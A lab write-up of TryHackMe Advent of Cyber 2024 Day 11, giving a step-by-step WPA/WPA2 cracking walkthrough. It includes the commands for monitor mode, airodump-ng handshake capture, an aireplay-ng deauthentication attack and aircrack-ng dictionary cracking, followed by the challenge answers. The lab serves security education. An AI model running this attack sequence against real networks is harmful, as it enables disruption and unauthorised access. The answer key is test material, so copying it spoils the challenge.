 # 🎄 TryHackMe Advent of Cyber 2024 – Day 11: Wi-Fi Attacks

## Objectives 🎯

Day 11 provides an in-depth exploration of Wi-Fi security and a hands-on demonstration of WPA/WPA2 cracking. This exercise highlights the vulnerabilities in wireless networks and the importance of strong security practices.

### Goals:
1. Learn about Wi-Fi and its critical role in organizations.
2. Understand various Wi-Fi attack techniques.
3. Perform a WPA/WPA2 cracking attack to capture a 4-way handshake and decrypt the Wi-Fi password (PSK).

## Steps 🚀

### Step 1: Preparing the Environment
1. **Start Machines**:  
   - Press the **Start Machine** button to initialize the target machine.  
   - Press the **Start AttackBox** button to set up the AttackBox environment.
2. **SSH into the Target Machine**:  
   Use the credentials provided:
   ```
   ssh glitch@MACHINE_IP
   Password: Password321
   ```

### Step 2: Analyzing Wireless Interfaces
1. **Check Wireless Device Information**:  
   Run `iw dev` to identify available wireless interfaces.  
   - **BSSID of our wireless interface**: `02:00:00:00:02:00`.
2. **Scan for Nearby Networks**:  
   Execute `sudo iw dev wlan2 scan` to list available Wi-Fi networks.  
   - **SSID and BSSID of the access point**: `MalwareM_AP, 02:00:00:00:00:00`.

### Step 3: Setting Monitor Mode
1. **Switch to Monitor Mode**:  
   ```
   sudo ip link set dev wlan2 down
   sudo iw dev wlan2 set type monitor
   sudo ip link set dev wlan2 up
   ```
2. **Confirm Monitor Mode**:  
   Use `sudo iw dev wlan2 info` to verify the interface is now in monitor mode.

### Step 4: Open a Second SSH Terminal
1. **Establish a Second SSH Session**:  
   Open another terminal to create a second SSH session into the target machine. This allows you to monitor Wi-Fi traffic in one session while executing attacks in the other.

2. **Capture Wi-Fi Traffic**:  
   On the first terminal, run `sudo airodump-ng wlan2` to display nearby networks and gather details such as signal strength, channel, and encryption type.  
   - **Focus on the target network**: `MalwareM_AP`.

3. **Target the Access Point**:  
   Run `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2` to capture the 4-way handshake. Let this command run as you proceed.

### Step 5: Launch a Deauthentication Attack
1. **Identify Connected Clients**:  
   When a client connected to `MalwareM_AP` is detected, its **BSSID** will appear in the STATION section.  
   - **BSSID of the connected client**: `02:00:00:00:01:00`.

2. **Send Deauthentication Packets**:  
   Use `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2` to disconnect the client and force a handshake.  
   - The captured handshake will appear in the output:  
     **`WPA handshake: 02:00:00:00:00:00`**.

### Step 6: Crack the WPA/WPA2 PSK
1. **Use Aircrack-ng**:  
   Perform a dictionary attack on the captured handshake:
   ```
   sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
   ```
2. **Decrypted PSK**:  
   - **Password (PSK)**: `fluffy/champ24`.

### Step 7: Connect to the Wi-Fi Network
1. **Generate a Configuration File**:  
   ```
   wpa_passphrase MalwareM_AP 'fluffy/champ24' > config
   ```
2. **Join the Network**:  
   ```
   sudo wpa_supplicant -B -c config -i wlan2
   ```
3. **Verify Connection**:  
   Use `iw dev` to confirm the wireless interface is connected to `MalwareM_AP`.

## Key Findings 🔑

1. **Weak Passwords**:  
   A simple password (`fluffy/champ24`) allowed the network to be cracked quickly, emphasizing the need for strong, complex passphrases.
2. **4-Way Handshake Vulnerability**:  
   WPA/WPA2 handshake data can be exploited for offline attacks, highlighting the importance of secure configurations.
3. **Monitor Mode**:  
   Demonstrates the value of specialized tools for passive network analysis and security auditing.

## Lessons Learned 🌟

### Wi-Fi Security Insights:
- **Secure Passphrases**: Always use strong, complex passwords for Wi-Fi networks.
- **Monitor Mode**: Essential for analyzing network traffic and capturing handshake data.
- **Deauthentication Attacks**: Highlight the vulnerabilities in wireless protocols and the need for additional security layers.

### Tools and Techniques 🛠️
1. **`iw` and `airodump-ng`**: Analyze and monitor wireless networks.
2. **`aireplay-ng`**: Perform deauthentication attacks.
3. **`aircrack-ng`**: Conduct dictionary attacks to crack WPA/WPA2 passwords.

## Final Thoughts 🎁

This challenge reinforces the importance of robust wireless security practices. Organizations should regularly audit their networks, enforce strong password policies, and monitor for rogue access points to protect against unauthorized access.

### Answers ✅
1. **What is the BSSID of our wireless interface?**  
   **Answer**: `02:00:00:00:02:00`

2. **What is the SSID and BSSID of the access point?**  
   **Answer**: `MalwareM_AP, 02:00:00:00:00:00`

3. **What is the BSSID of the wireless interface that is already connected to the access point?**  
   **Answer**: `02:00:00:00:01:00`

4. **What is the PSK after performing the WPA cracking attack?**  
   **Answer**: `fluffy/champ24`

5. **If you enjoyed this task, feel free to check out the Networking module.**  
   **Answer**: No answer needed.

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)  
- [Day 2: Log Analysis](day2.md)  
- [Day 3: Log Analysis](day3.md)  
- [Day 4: Atomic Red Team](day4.md)  
- [Day 5: XXE Exploitation](day5.md)  
- [Day 6: Sandboxes](day6.md)  
- [Day 7: AWS Log Analysis](day7.md)  
- [Day 8: Shellcodes](day8.md)  
- [Day 9: GRC](day9.md)  
- [Day 10: Phishing](day_10.md)  
- **Day 11: Wi-Fi Attacks**
- [Day 12: Web Timing Attacks](day_12.md)
- [Day 13: Coming Soon!](day_13.md)
- [More Days to Come!](#)
